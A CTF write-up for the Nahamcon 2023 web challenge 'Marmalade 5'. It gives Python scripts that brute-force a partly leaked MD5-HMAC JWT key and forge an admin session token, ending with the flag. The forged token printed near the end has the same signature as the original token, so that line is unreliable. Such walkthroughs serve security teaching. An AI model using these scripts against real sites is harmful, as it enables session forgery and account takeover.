```yaml
---
name: Marmalade 5 (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Marmalade 5 (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Marmalade 5

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3LRZsnSyDrQ/0.jpg)](https://www.youtube.com/watch?v=3LRZsnSyDrQ "Nahamcon CTF 2023: Marmalade 5 (Web)")

## Description

> Enjoy some of our delicious home made marmalade!

## Recon

Can't register as `admin`.

{% code overflow="wrap" %}
```bash
Login as the admin has been disabled
```
{% endcode %}

Register as `cat` and it says only `admin` can get flag!

Check the [JWT](https://youtu.be/GIq3naOLrTg) in session cookies.

{% code overflow="wrap" %}
```json
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w
```
{% endcode %}

Decode it with [jwt.io](https://jwt.io)

{% code overflow="wrap" %}
```json
{
  "alg": "MD5_HMAC"
}
{
  "username": "cat"
}
```
{% endcode %}

## First attempts

Tried `null` and `none` algorithm attacks with `jwt_tool`.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -X a -pc username -pv admin
```
{% endcode %}

When trying to use the tokens, get an error.

{% code overflow="wrap" %}
```bash
Invalid algorithm, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```
{% endcode %}

So we know the first 11 characters of the key `fsrwjcfszeg`, let's try to brute force the last 5.

Tried `jwt_tool` but it doesn't work with the `MD5_HMAC` algorithm.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -C -p fsrwjcfszeg*****

Algorithm is not HMAC-SHA - cannot test with this tool.
```
{% endcode %}

Same goes for `hashcat`.

{% code overflow="wrap" %}
```bash
hashcat -a 3 -m 16500 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w' fsrwjcfszeg?l?l?l?l?l

Hash 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w': Token length exception
No hashes loaded.
```
{% endcode %}

## Solve script #1 (brute-force)

Let's (me and chatGPT) make a custom script to crack the signature.

{% code overflow="wrap" %}
```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"

def verify_jwt(jwt_token, key):
    # Split the JWT into header, payload, and signature
    header, payload, signature = jwt_token.split('.')

    # Recreate the signing input by concatenating the header and payload with a dot
    signing_input = header + '.' + payload

    # Convert the signing input and key to bytes
    signing_input_bytes = signing_input.encode('utf-8')
    key_bytes = key.encode('utf-8')

    # Create an HMAC-MD5 hash object
    hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

    # Get the HMAC-MD5 signature
    calculated_signature = hash_obj.hexdigest()

    # Decode the Base64-encoded signature from the JWT
    decoded_signature = base64.urlsafe_b64decode(signature + "==")

    # Compare the decoded signature with the calculated signature
    if decoded_signature == bytes.fromhex(calculated_signature):
        print("Key:", key)
        exit(0)

# Define the character set and key length
charset = "abcdefghijklmnopqrstuvwxyz"
key_length = 5

# Loop through different keys
for i in range(len(charset) ** key_length):
    key = ""
    for j in range(key_length):
        key = charset[i % len(charset)] + key
        i //= len(charset)

    verify_jwt(jwt_token, 'fsrwjcfszeg' + key)
```
{% endcode %}

Got the key!

{% code overflow="wrap" %}
```bash
Key: fsrwjcfszegvsyfa
```
{% endcode %}

## Solve script #2 (forge token)

Now another custom script to forge a token with user `admin`.

{% code overflow="wrap" %}
```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"
key = "fsrwjcfszegvsyfa"

# Split the JWT into header, payload, and signature
header, payload, signature = jwt_token.split('.')

# Decode the payload from the token
decoded_payload = base64.urlsafe_b64decode(payload + "==").decode('utf-8')

# Modify the payload
modified_payload = decoded_payload.replace('"username":"cat"', '"username":"admin"')

# Encode the modified payload
encoded_payload = base64.urlsafe_b64encode(modified_payload.encode('utf-8')).decode('utf-8').rstrip('=')

# Recreate the signing input by concatenating the header and modified payload with a dot
signing_input = header + '.' + encoded_payload

# Convert the signing input and key to bytes
signing_input_bytes = signing_input.encode('utf-8')
key_bytes = key.encode('utf-8')

# Create an HMAC-MD5 hash object
hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

# Get the HMAC-MD5 signature
calculated_signature = hash_obj.digest()

# Encode the calculated signature using base64
encoded_signature = base64.urlsafe_b64encode(calculated_signature).rstrip(b'=').decode('utf-8')

# Replace the characters '+' and '/' in the encoded signature with '-' and '_'
encoded_signature = encoded_signature.replace('+', '-').replace('/', '_')

# Create the modified JWT by concatenating the modified header, encoded payload, and encoded signature
modified_jwt = header + '.' + encoded_payload + '.' + encoded_signature

print("Modified Token:", modified_jwt)
```
{% endcode %}

Receive a new token, signed with `MD5_HMAC` using the secret key `fsrwjcfszegvsyfa`.

{% code overflow="wrap" %}
```bash
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.C3Z8QcoVXXFa-LAzFZbZ1w
```
{% endcode %}

We replace the cookie and receive a flag!

Flag: `flag{a249dff54655158c25ddd3584e295c3b}`

